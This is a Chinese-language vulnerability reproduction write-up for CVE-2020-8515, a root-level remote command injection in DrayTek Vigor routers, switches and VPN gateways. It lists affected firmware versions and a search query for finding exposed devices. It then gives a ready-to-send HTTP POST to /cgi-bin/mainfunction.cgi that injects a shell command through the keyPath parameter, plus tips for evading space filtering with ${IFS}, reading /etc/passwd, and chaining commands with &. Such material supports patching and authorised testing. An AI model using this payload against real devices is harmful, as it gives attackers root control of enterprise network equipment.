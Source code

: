 # DrayTek企业网络设备 远程命令执行 CVE-2020-8515

## 漏洞描述

DrayTek URI未能正确处理SHELL字符，远程攻击者可以利用该漏洞提交特殊的请求，可以ROOT权限执行任意命令。

远程命令注入漏洞被标记为CVE-2020-8515，主要影响了DrayTek Vigor网络设备，包括企业交换机、路由器、负载均衡器和VPN网关。

## 漏洞影响

<a-checkbox checked>Vigor2960 < v1.5.1</a-checkbox></br>

<a-checkbox checked>Vigor300B < v1.5.1</a-checkbox></br>

<a-checkbox checked>Vigor3900 < v1.5.1</a-checkbox></br>

<a-checkbox checked>VigorSwitch20P2121 <= v2.3.2</a-checkbox></br>

<a-checkbox checked>VigorSwitch20G1280 <= v2.3.2</a-checkbox></br>

<a-checkbox checked>VigorSwitch20P1280 <= v2.3.2</a-checkbox></br>

<a-checkbox checked>VigorSwitch20G2280 <= v2.3.2</a-checkbox></br>

<a-checkbox checked>VigorSwitch20P2280 <= v2.3.2</a-checkbox></br>

## 网络测绘

<a-checkbox checked>title="Vigor 2960"</a-checkbox></br>

## 漏洞复现

登录页面抓包

![](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10-7231530.png)

请求包如下

```
POST /cgi-bin/mainfunction.cgi HTTP/1.1

Connection: close
Content-Length: 67
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/88.0.4324.182 Safari/537.36
Content-Type: text/plain; charset=UTF-8
Accept: */*
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7,zh-TW;q=0.6

action=login&keyPath=%27%0A%2fbin%2fls%0A%27&loginUser=a&loginPwd=a
```

![](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10-20220314121856526.png)

其中出现注入点的参数为 `keyPath`

出现空格需要替换，例如 cat /etc/passwd --> cat${IFS}/etc/passwd

可以使用 & 执行额外一条命令 (URL编码为 %26)

![](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10-20220314121906002.png)

